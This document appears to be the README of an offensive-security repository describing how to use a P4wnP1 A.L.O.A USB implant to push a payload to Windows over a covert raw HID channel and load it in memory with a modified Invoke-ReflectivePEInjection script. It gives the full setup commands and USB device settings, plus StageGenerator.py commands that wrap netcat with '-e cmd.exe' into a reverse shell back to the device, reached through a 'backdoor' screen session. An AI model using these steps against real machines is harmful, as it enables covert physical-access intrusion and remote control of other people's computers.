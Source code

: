 # Reflective PE Injection using HID covert channel

### Description

Use a Covert RAW HID channel to deliver a payload to a windows machine and load it to memory using [powersploit "Invoke-ReflectivePEInjection"](https://powersploit.readthedocs.io/en/latest/CodeExecution/Invoke-ReflectivePEInjection/)

- The Invoke-ReflectivePEInjection.ps1 in this repository has been modified to work on Windows 10.

## Requirements

- Copy the "**Injection.sh**" script to `/usr/local/P4wnP1/scripts/`
- chmod `root@kali:/usr/local/P4wnP1/scripts# chmod 755 Injection.sh`
- Copy the "**Invoke-ReflectivePEInjection.ps1**" payload to `/usr/local/P4wnP1/legacy/`
- Copy the "**StageGenerator.py**" script to `/usr/local/P4wnP1/legacy/`
- Copy the "**Invoke-ReflectivePEInjection.js**" to `/usr/local/P4wnP1/HIDScripts/`
- Generate Stage2 payload (netcat Reflective PE Injection) `root@kali:/usr/local/P4wnP1/legacy# python2 StageGenerator.py /usr/share/windows-binaries/nc.exe "172.24.0.1 4444 -e cmd.exe"`

## Configuration

**Create a USB setting template with the following settings:**

- Keyboard
- Custom HID device
- Vendor ID: `0x1d6b`
- Product ID: `0x1347`
- Manufacturer Name: `MaMe82`
- Product Name: `P4wnP1 by MaMe82`
- Serial Number: `deadbeef1337`

_If you want to use other VID/PID you will need to update the values in Invoke-ReflectivePEInjection.js and Stage2.ps1_

**Store the template under the name "Injection"**

**Create a trigger action** that starts the bash script "Injection.sh" when USB gadget connected to host, **Store the template under the name "Injection"**

**Create a master template** with the following settings:

- TriggerActions Template: `Injection`
- USB Template: `Injection`
- WiFi Template: `startup`
- Bluetooth Template: `startup`
- Networks templates: `bteth_startup, usbeth_startup, wlan0_startup_dhcp_server`

## Execution

- Connect to the P4wnP1 A.L.O.A web interface (using the access point ip "172.24.0.1") and deploy the master template "**Injection**"
- SSH into your P4wnP1 A.L.O.A access point ip "172.24.0.1" and run the following command: `root@kali:~# screen -d -r backdoor`

## StageGenerator.py

You can use **StageGenerator.py** generate a Reflective PE Injection payload using any executable file and deliver it using the P4wnP1 raw HID covert channel.

Just make sure the **Invoke-ReflectivePEInjection.ps1** file is in the same directory as **StageGenerator.py**

### Usage:

`root@kali:/usr/local/P4wnP1/legacy# python2 StageGenerator.py "PE_EXECUTABLE_FILE_PATH" "EXECUTABLE_FILE_ARGUMENTS"`

Example With Arguments:

`root@kali:/usr/local/P4wnP1/legacy# python2 StageGenerator.py /tmp/netcat.exe "172.24.0.1 4444 -e cmd.exe"`

Example Without Arguments:

`root@kali:/usr/local/P4wnP1/legacy# python2 StageGenerator.py /tmp/netcat.exe ""`

